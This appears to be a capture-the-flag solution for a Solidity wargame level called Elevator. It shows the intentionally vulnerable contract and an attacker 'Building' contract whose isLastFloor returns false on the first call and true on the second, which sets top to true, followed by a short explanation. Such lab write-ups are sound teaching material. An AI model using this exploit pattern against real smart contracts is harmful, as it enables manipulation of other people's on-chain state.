

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IElevator{
    function goTo(uint _floor) external;
}

contract Building {
    uint256 index = 0;
    
    constructor() public {}

    function isLastFloor(uint) external returns (bool) {
        if (index == 0) {
            index++;
            return false;
        }
        return true;
    }

    function goTo(uint _floor, address _targetAddress) public {
        IElevator(_targetAddress).goTo(_floor);
    }
}
```

Basicially to solve this level, top state variable should be changed to true. For this we write a Building contract with isLastFloor function which returns false on first call and true on second call. So, we solve this by introducing a variable index to check the first and second call and reach top of the building setting top to true.
So we call the goTo function from the Building contract which in turn calls isLastFloor function of the Building contract and we finally reach to the top of the building.